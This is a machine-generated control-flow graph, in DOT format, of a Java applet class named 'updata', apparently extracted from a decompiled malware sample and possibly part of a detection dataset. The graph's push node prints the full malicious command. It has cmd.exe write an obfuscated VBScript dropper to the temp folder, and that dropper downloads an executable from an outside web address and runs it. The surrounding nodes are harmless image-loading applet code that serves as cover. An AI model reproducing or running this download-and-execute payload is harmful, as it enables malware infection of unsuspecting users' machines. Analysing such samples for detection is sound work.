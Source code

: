 digraph "" {
"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
 "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
 "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
 "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
 "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"push 'cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updata.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updata.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updata.vbs & echoZC0YK16ggjQQ = \\'ADODB\\' >> %temp%\\updata.vbs & echo ZC0YK16ggjQQ = \\'ADODB\\' >> %temp%\\updata.vbs &echo Y5mJ5jSJXzm38lz = \\'.Stream\\' >> %temp%\\updata.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updata.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updata.vbs & echo N8VObVe37C.Open >> %temp%\\updata.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updata.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updata.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updata.vbs & echo Set YK16ggjQQ = CreateObject(\\'WinHttp.WinHttpRequest.5.1\\') >> %temp%\\updata.vbs & echo YK16ggjQQ.Open \\'GET\\', URL, False >> %temp%\\updata.vbs & echo YK16ggjQQ.Send >> %temp%\\updata.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updata.vbs & echo End Function >> %temp%\\updata.vbs & echo CreateObject(\\'WScript.Shell\\').Run \\'%temp%\\updata.exe\\' >> %temp%\\updata.vbs & start %temp%\\updata.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updata.exe'";
 "push 'cmd.exe /c echo Const J9h1w0zHFgZtuRnPeXga = 1 > %temp%\\updata.vbs & echo Const KlOugdsfRh54h02ZPeXga = 2 >> %temp%\\updata.vbs & echo Dim ZC0YK16ggjQQ, Y5mJ5jSJXzm38lz, N8VObVe37C, YK16ggjQQ >> %temp%\\updata.vbs & echoZC0YK16ggjQQ = \\'ADODB\\' >> %temp%\\updata.vbs & echo ZC0YK16ggjQQ = \\'ADODB\\' >> %temp%\\updata.vbs &echo Y5mJ5jSJXzm38lz = \\'.Stream\\' >> %temp%\\updata.vbs & echo Set N8VObVe37C = CreateObject(ZC0YK16ggjQQ+Y5mJ5jSJXzm38lz) >> %temp%\\updata.vbs & echo N8VObVe37C.Type = J9h1w0zHFgZtuRnPeXga >> %temp%\\updata.vbs & echo N8VObVe37C.Open >> %temp%\\updata.vbs & echo N8VObVe37C.Write BinaryGetURL(Wscript.Arguments(0)) >> %temp%\\updata.vbs & echo N8VObVe37C.SaveToFile Wscript.Arguments(1), KlOugdsfRh54h02ZPeXga >> %temp%\\updata.vbs & echo Function BinaryGetURL(URL) >> %temp%\\updata.vbs & echo Set YK16ggjQQ = CreateObject(\\'WinHttp.WinHttpRequest.5.1\\') >> %temp%\\updata.vbs & echo YK16ggjQQ.Open \\'GET\\', URL, False >> %temp%\\updata.vbs & echo YK16ggjQQ.Send >> %temp%\\updata.vbs & echo BinaryGetURL = YK16ggjQQ.ResponseBody >> %temp%\\updata.vbs & echo End Function >> %temp%\\updata.vbs & echo CreateObject(\\'WScript.Shell\\').Run \\'%temp%\\updata.exe\\' >> %temp%\\updata.vbs & start %temp%\\updata.vbs http://www.hidrocaribe.gob.ve/website/language/es-ES/java.exe %temp%\\updata.exe'"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"goto load.r r0";
 "goto load.r r0"->"staticget <java.awt.Color: java.awt.Color white>";
 "staticget <java.awt.Color: java.awt.Color white>"->"specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>";
 "specialinvoke <java.applet.Applet: void setBackground(java.awt.Color)>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
 "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
 "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
 "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <updata: int fi(java.lang.String,int,int)>";
 "virtualinvoke <updata: int fi(java.lang.String,int,int)>"->"new java.awt.MediaTracker";
 "new java.awt.MediaTracker"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
 "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"fieldput <updata: java.awt.MediaTracker tracker>";
 "fieldput <updata: java.awt.MediaTracker tracker>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String ivalign>";
 "fieldput <updata: java.lang.String ivalign>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String ialign>";
 "fieldput <updata: java.lang.String ialign>"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
 "specialinvoke <java.lang.StringBuilder: void <init>()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"fieldput <updata: java.lang.String bs>";
 "fieldput <updata: java.lang.String bs>"->"fieldget <updata: java.lang.String bs>";
 "fieldget <updata: java.lang.String bs>"->"goto load.r r0";
 "goto load.r r0"->"fieldput <updata: java.awt.Image[] img>";
 "fieldput <updata: java.awt.Image[] img>"->"fieldget <updata: java.awt.Image[] img>";
 "fieldget <updata: java.awt.Image[] img>"->"specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>";
 "specialinvoke <java.applet.Applet: java.net.URL getCodeBase()>"->"new java.lang.StringBuilder";
 "new java.lang.StringBuilder"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
 "specialinvoke <java.lang.StringBuilder: void <init>()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"new java.lang.StringBuffer";
 "new java.lang.StringBuffer"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
 "specialinvoke <java.lang.StringBuffer: void <init>()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>";
 "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(int)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
 "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>";
 "specialinvoke <java.applet.Applet: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"fieldget <updata: java.awt.MediaTracker tracker>";
 "fieldget <updata: java.awt.MediaTracker tracker>"->"fieldget <updata: java.awt.Image[] img>";
 "fieldget <updata: java.awt.Image[] img>"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
 "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"goto load.r r0";
"specialinvoke <java.applet.Applet: void show()>";
 "specialinvoke <java.applet.Applet: void show()>"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
 "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int width>";
 "fieldget <java.awt.Dimension: int width>"->"specialinvoke <java.applet.Applet: java.awt.Dimension size()>";
 "specialinvoke <java.applet.Applet: java.awt.Dimension size()>"->"fieldget <java.awt.Dimension: int height>";
 "fieldget <java.awt.Dimension: int height>"->"specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>";
 "specialinvoke <java.applet.Applet: java.awt.Image createImage(int,int)>"->"fieldput <updata: java.awt.Image offi>";
 "fieldput <updata: java.awt.Image offi>"->"fieldget <updata: java.awt.Image offi>";
 "fieldget <updata: java.awt.Image offi>"->"virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>";
 "virtualinvoke <java.awt.Image: java.awt.Graphics getGraphics()>"->"fieldput <updata: java.awt.Graphics offg2>";
 "fieldput <updata: java.awt.Graphics offg2>"->"fieldget <updata: java.awt.Graphics offg2>";
 "fieldget <updata: java.awt.Graphics offg2>"->"virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>";
 "virtualinvoke <java.awt.Graphics: void fillRect(int,int,int,int)>"->"specialinvoke <java.applet.Applet: java.awt.Container getParent()>";
 "specialinvoke <java.applet.Applet: java.awt.Container getParent()>"->"fieldput <updata: java.awt.Container container>";
 "fieldput <updata: java.awt.Container container>"->"fieldget <updata: java.awt.Container container>";
 "fieldget <updata: java.awt.Container container>"->"fieldget <updata: java.awt.Container container>";
 "fieldget <updata: java.awt.Container container>"->"virtualinvoke <java.awt.Container: java.awt.Container getParent()>";
 "virtualinvoke <java.awt.Container: java.awt.Container getParent()>"->"fieldput <updata: java.awt.Container container>";
 "fieldput <updata: java.awt.Container container>"->"goto load.r r0";
"fieldget <updata: java.awt.Container container>";
 "fieldget <updata: java.awt.Container container>"->"fieldput <updata: java.awt.Frame frm>";
 "fieldput <updata: java.awt.Frame frm>"->"return";
"goto load.r r0";
"fieldget <updata: java.lang.String bs>";
 "fieldget <updata: java.lang.String bs>"->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"fieldget <updata: java.lang.String bs>";
 "fieldget <updata: java.lang.String bs>"->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"fieldget <updata: java.lang.String bs>";
 "fieldget <updata: java.lang.String bs>"->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
 "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"goto load.r r0";
"goto load.r r0";
"goto load.r r0";
 "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
